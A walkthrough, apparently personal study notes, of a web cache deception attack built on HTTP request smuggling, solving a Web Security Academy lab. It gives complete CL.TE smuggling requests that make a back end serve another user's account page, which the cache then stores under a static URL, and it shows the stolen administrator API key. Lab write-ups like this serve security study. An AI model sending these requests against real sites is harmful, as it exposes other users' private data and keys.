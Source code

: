 Works similar to Web Cache Poisoning but has a different purpose.

- Poisoning: The attacker causes the app to store some malicious content in the cache, and this content is server from the cache to other app users.
- Deception: The attacker causes the app to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

So, the attacker smuggles a request that returns sensitive user-specific content:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked
```
```
GET /private/messages HTTP/1.1
Foo: X
```

The next request from another user that is forwarded to the backend will be appended to the smuggled request, including cookies and other headers:

```http
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=qdi14sdcvu3k5jn5ui
...
```

The backend responds to this request in the normal way. 

The URL in the request is for the private messages of the user and the request is processed in the context of the victim user's session. 

The frontend then caches this response against what it believes is the URL in the second request, which is /static/some-image.png:

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 OK
...
<h1>Your private messages</h1>
...
```

The attacker then visits the static URL and receives the sensitive content that is returned from the cache.

The problem here is that the attacker doesn't know the URL against which the sensitive content will be cached, because this will be whatever URL the victim requested when smuggling request took effect. In this case, the attacker may need to fetch a large number of static URLs to discover the captured data.

# Exploitation

## Lab
Front-end served doesn't support chunked encoding, and front-end is caching static resources.

The challenge is to perform a request smuggling attack such that the next user's request causes their API key to be saved in the cache.

Then the goal is to retrieve the API key from the cache and submit it as the lab solution. The login to the account can be done using the following credentials: `wiener:peter`.

## Solution

Prepare the attack request:

```http
POST / HTTP/1.1
Host: 0a1300ed04327d0182cd028b00c6004f.web-security-academy.net
Cookie: session=zsZ3Dyj7aYJuEhH2xj9w1qOK25Xz2bc0
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore : x
```

First after the log in I checked with `GET /my-account` can be retrieved the API key, since I don't know the victims username, and that was possible.

So, with this attack request, the whole request will be sent to the backend as one, and then since the backend uses `Transfer-Encoding` the request will be split after the `0`, and the remaining part will be left for the next victim's request.

Normal request:

I sent to the `Burp Repeater` a static page that was called automatically after viewing the `my-account`.

```http
GET /resources/js/tracking.js HTTP/2
Host: 0a1300ed04327d0182cd028b00c6004f.web-security-academy.net
Cookie: session=X1KbhMUOUxDHxGCqThWZkno0fUqEgtC9
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a1300ed04327d0182cd028b00c6004f.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1
```

I saw that the `max-age` is 30, so I waited until it was about 27 seconds, and sent the attack request a couple times, so it would be cached.

After that, when I sent the normal request again, I could see the API key of the administrator in the response:

```http
...
<div id=account-content>
    <p>Your username is: administrator</p>
    <div>Your API Key is: r6pPjs9B6GVkKfwwkZ4HnBnxgcuGYaWi</div><br/>
        <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
            <label>Email</label>
            <input required type="email" name="email" value="">
            <input required type="hidden" name="csrf" value="jlz9oiRO6vbBcmwMVx50IzigneYRBWIj">
            <button class='button' type='submit'> Update email </button>
        </form>
    </div>
</div>
...
```
